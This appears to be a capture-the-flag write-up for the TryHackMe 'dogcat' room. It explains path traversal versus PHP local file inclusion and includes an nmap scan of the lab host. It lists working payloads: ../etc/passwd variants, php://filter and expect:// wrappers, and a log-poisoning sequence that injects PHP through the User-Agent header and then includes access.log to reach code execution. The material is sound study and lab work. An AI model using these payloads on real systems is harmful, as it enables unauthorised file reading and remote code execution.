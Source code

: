 # dogcat

<details>
    <summary></summary>

## **`path traversal VS LFI`**
   
- **Path Traversal** = *jumping in the folder tree* using `../` to access a file that you are not allowed to view (usually the endpoint reads/returns a file).

- **LFI (Local File Inclusion)** = *Inserting a file into a server/application* --- The input is used in include/require functions or displaying files within the application. **LFI can use Path Traversal** to access a file, but it has a broader footprint (its use can lead to code execution).

--- 

**Mnemonic:**

> Path traversal = "..\" (jump folders) --- LFI = "include/require" (app includes file).

---

**Path traversal (eg download endpoint):**

- URL: `GET /download?file=reports/2024.pdf`

- Test: `file=../../../../etc/passwd` → the server returns the content of `/etc/passwd`

- Behavior: The server reads and returns the file to the user.



**LFI (PHP example):**

```php
<?php
$page = $_GET['page'];
include("/var/www/pages/". $page);
?>
```

- Test: `page=../../../../etc/passwd` → may print file content within web page (LFI).

- But LFI can be improved: `page=php://filter/convert.base64-encode/resource=../../../../etc/passwd` → returns the base64 content (when characters do not appear correctly).

---

Examples of quick payloads for testing
=============================================

-   **Path traversal (only reading tests):**

    -   `../../../../etc/passwd`

    -   `..%2f..%2f..%2fetc%2fpasswd` (URL-encoded)

    -   `....//....//etc/passwd` (some servers deal with strange conversion methods)



-   **LFI-specific cheats:**

    -   `php://filter/convert.base64-encode/resource=../../../../etc/passwd` (for PHP)

    -   Trying to read logs: `../../../../var/log/apache2/access.log` and then injecting an HTTP request with a payload to record it in the log (log poisoning) → then include on the log → execute code (RCE) in some cases.

    -   `expect://`, `data://`, `input://` --- wrappers can be used if possible.

> Note: The null byte (`%00`) is old and does not work on modern versions of PHP, so relying on it is not reliable.




---

How do you tell them apart in practice (quick test)
=============================================

1. Try `../../../../etc/passwd`

    - If the file content appears → you will be able to say **Path Traversal or LFI**.

2. See the response:

    - If the server returns the file as **download/attachment** or plain file content → often **Path Traversal** (endpoint dedicated to reading/downloading files).

    - If the file appears inside the application page or is passed through include → usually **LFI**.









----
----

<details>
  <summary>how to know which one you face</summary>



Detailed process steps (with commands + what to expect)
---------------------------------------

### 1) Simple request for path (read file)

commander:

```
curl -i "http://TARGET/vulnerable?file=../../../../etc/passwd"
```

- **If the content of /etc/passwd appears as clear text** (and the HTTP status is 200): Possible **Path Traversal or LFI** --- additional checks are needed to distinguish them.

- See the response headers (`Content-Type`, `Content-Disposition`):

    - `Content-Disposition: attachment; filename="etc_passwd"` → Mostly **Path Traversal** (endpoint is for mounting).

    - `Content-Type: text/html` and the content is embedded within an HTML page → possibly **LFI** (included in page).


---

### 2) PHP wrapper test (robust differentiation test---tests LFI on PHP applications)

commander:

```
curl -s "http://TARGET/vulnerable?file=php://filter/convert.base64-encode/resource=../../../../etc/passwd"
```

- **If it returns base64** → This is strong evidence that the request went through PHP's include/require function --- **LFI** (not just read/download).

- **If it does not change** or the server rejects it → it is less likely that there is an LFI on PHP (but it may be Path Traversal or another language).

---

### 3) Does the file appear as a download file or within a page?

- Load/Attachment/Content-Disposition → **Path Traversal** Mostly.

- Within an HTML page (eg content between `<pre>` or at a page location) → **LFI** or include.

- Note: Some applications may return the file inside HTML even though it is just reading --- see the following steps.

---

### 4) Test the behavior by calling the application's PHP file

-   Try requesting an internal PHP file that usually exists (eg `/index.php`):

```
curl -i "http://TARGET/vulnerable?file=../../../../var/www/html/index.php"
```

-   **If the content is returned as PHP source code (meaning <?php ...)** → this means the server only *read* the file as text → mostly **Path Traversal** on the reading endpoint.

-   **If it appears as a result of executing the index.php (the resulting HTML)** → the application means **includes the file inside the server** (running it) → this is the behavior of **LFI** or include within the display context.


> Important note: Normally including a PHP file via include cannot cause it to be executed again on the server if it is included as text; But if the application uses `include` or `require` you will see the effect of include (the PHP code may be executed in the process).



---


### 5) Log poisoning test (effectively separates LFI from path traversal)

- Send a regular request with payload in `User-Agent` or path to be registered in access.log:

```
curl -A "<?php echo 'PWN'; ?>" "http://TARGET/"
```

- Then try include for log:

```
curl -i "http://TARGET/vulnerable?file=../../../../var/log/apache2/access.log"
```

- **If the text `PWN` appears in the response** → it means the server has read the log.

- **If you observe an execution or resulting change** (eg running code) → this indicates **LFI with exploitability**.


- If `PWN` does not appear despite its presence in the log → perhaps the endpoint does not allow reading those paths (or the file is out of validity) → Path Traversal may be limited.

> Warning: Testing log poisoning on real systems may be offensive --- only use it on licensed test environments or platforms (TryHackMe).



---

Shortcut tools/commands that you can save
----------------------------------

- Normal reading:

    `curl -i "http://TARGET/vuln?file=../../../../etc/passwd"`

- PHP wrapper test:

    `curl -s "http://TARGET/vuln?file=php://filter/convert.base64-encode/resource=../../../../etc/passwd" | base64 -d`

- Test include for PHP file:

    `curl -i "http://TARGET/vuln?file=../../../../var/www/html/index.php"`

- log poisoning test (only on test environment):

    `curl -A "<?php echo 'PWN'; ?>" "http://TARGET/"
    curl -i "http://TARGET/vuln?file=../../../../var/log/apache2/access.log"`








  
</details>

----
----









  
</details>


































## **`Nmap Scan`**

```ruby
namp -sCV 10.10.10.10
```

```ruby
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-12 07:53 EDT
Nmap scan report for 10.10.43.88
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.38 seconds

```




































































